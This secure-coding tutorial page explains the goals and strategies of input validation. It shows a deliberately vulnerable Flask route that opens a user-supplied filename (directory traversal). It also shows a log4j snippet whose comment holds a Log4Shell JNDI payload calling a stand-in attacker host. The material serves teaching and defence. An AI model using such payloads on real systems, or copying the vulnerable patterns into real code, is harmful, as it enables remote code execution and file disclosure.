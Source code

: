 # Goals of Input Validation

Input validation is a critical aspect of software security that aims to prevent malicious data from being processed within a system. This process ensures that only properly formatted data is accepted and entered into the workflow, thereby avoiding the possibility of malformed data being stored in the database and causing downstream components to malfunction.

Input validation is typically performed as soon as data is received from external sources or users, and it should not be relied upon as the primary method of protection against attacks such as Cross-Site Scripting (XSS) or SQL Injection. However, it can help to minimize the impact of these attacks when properly implemented.

**Input Validation is your first line of defense!**

---

## Input validation strategies

There are three primary strategies for input validation

- Type Checking
- White listing
- Length Checkin
  
These strategies are important because without proper input validation, attackers can inject malicious data into a system and cause security vulnerabilities, such as Local File Inclusion/Directory Traversal attacks.

We will highlight each strategy and give hands-on examples of different attacks if these strategies are not implemented correctly. These examples also give you guidance on how specific input validation strategies would have mitigated the attacks demonstrated.

---

## So, what is user input?

User input refers to data from any source that may not be trusted, including not only web clients but also data from suppliers, partners, vendors, or regulators. It is important to validate this data to ensure its integrity and prevent any potential security risks.

---

## General rule of thumb

The general rule of thumb in input validation is to avoid giving an attacker control over the object that is passed into a function, parser, or operator. This means that user input should not be directly passed into a function, but rather should be validated and sanitized first. For example, in the case of a file operator, an attacker could inject malicious data and cause a directory traversal attack.

So, what exactly does that mean?

#### **example 1**
```python
@app.route("/home", methods=['POST'])
def home():
    filename = request.form['filename']
    if filename == "":
        filename = "default.txt"
    f = open(filename,'r')
    read = f.read()
    return render_template("index.html",read = read)
```

In this example we observe that when the so called "source"

> filename = request.form['filename']

Used in the following ***sink*** or in this case a ***File operator***
>  f = open(filename,'r')

Will lead to a security vulnerability called ***Local file inclusion*** || ***Directory traversal*** attack. This attack was preventable by applying the secure design principles mentioned above. We will dig further into this example and how to mitigate it in the chapter that covers the **white listing** mitigation strategy.

---

#### **example 2**

Even though that at the time of writing the code  ***log4j*** did not direclty impose a great security risk, a lot of trouble could have been prevented by not direcly writing user supplied input directly into the ***log.error()*** function.



```java
import org.apache.log4j.Logger;

import java.io.*;
import java.util.*;

public class log4jExample{

   /* Get actual class name to be printed on */
   static Logger log = Logger.getLogger(log4jExample.class.getName());

   public static void main(String[] args){
      // input could look like:
      // ${jndi:rmi//hackerbox.com:1337/exploit}
      log.error(USER_INPUT_HERE);
   }
}
```

The same principles as mentioned in the **Directory / path traversal** example are applied to this example as wel. Don't give an attacker full control over an **object** that goes into a **sink**. More in depth information about the **Log4J** Vulnerability can be found in the **Sources** Section.

In conclusion, input validation is an essential aspect of software security and should be given the attention it deserves. By using the appropriate validation strategies and following best practices, software systems can be made more secure and better protected against malicious attacks.

---

#### Sources:
[OWASP Cheat sheets](https://cheatsheetseries.owasp.org/cheatsheets/Input_Validation_Cheat_Sheet.html)

[Log4J](https://isc.sans.edu/diary/RCE+in+log4j%2C+Log4Shell%2C+or+how+things+can+get+bad+quickly/28120)
